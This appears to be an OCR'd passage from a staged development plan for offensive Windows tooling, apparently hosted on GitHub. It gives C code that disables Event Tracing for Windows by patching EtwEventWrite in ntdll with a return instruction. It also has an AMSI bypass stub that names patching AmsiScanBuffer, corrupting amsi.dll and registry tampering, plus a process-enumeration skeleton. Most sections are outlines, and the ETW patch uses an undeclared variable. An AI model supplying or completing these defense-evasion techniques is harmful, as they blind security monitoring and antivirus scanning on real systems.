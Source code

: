 ```c
```

#### 4.3 ETW Bypass
```c
void bypass_etw() {
    // Patch EtwEventWrite to return immediately
    void* etw_func = GetProcAddress(
        GetModuleHandleA("ntdll.dll"), 
        "EtwEventWrite"
    );
    
    BYTE patch[] = { 0xC3 };  // ret
    VirtualProtect(etw_func, 1, PAGE_EXECUTE_READWRITE, &old);
    memcpy(etw_func, patch, 1);
}
```

#### 4.4 AMSI Bypass
```c
void bypass_amsi() {
    // Multiple techniques
    // 1. Patch AmsiScanBuffer
    // 2. Corrupt amsi.dll
    // 3. Registry manipulation
}
```

### STAGE 5: Process Discovery & Analysis (Week 3)

#### 5.1 Advanced Process Enumeration
```c
typedef struct {
    DWORD pid;
    DWORD ppid;
    char name[256];
    char path[512];
    BOOL is_64bit;
    BOOL is_protected;
    BOOL is_suspended;
    DWORD session_id;
    char user[256];
    HANDLE token;
} process_info_t;

process_info_t* enumerate_processes() {
    // Use multiple methods:
    // - CreateToolhelp32Snapshot
    // - NtQuerySystemInformation
    // - WMI queries
    // - Handle enumeration
}
```
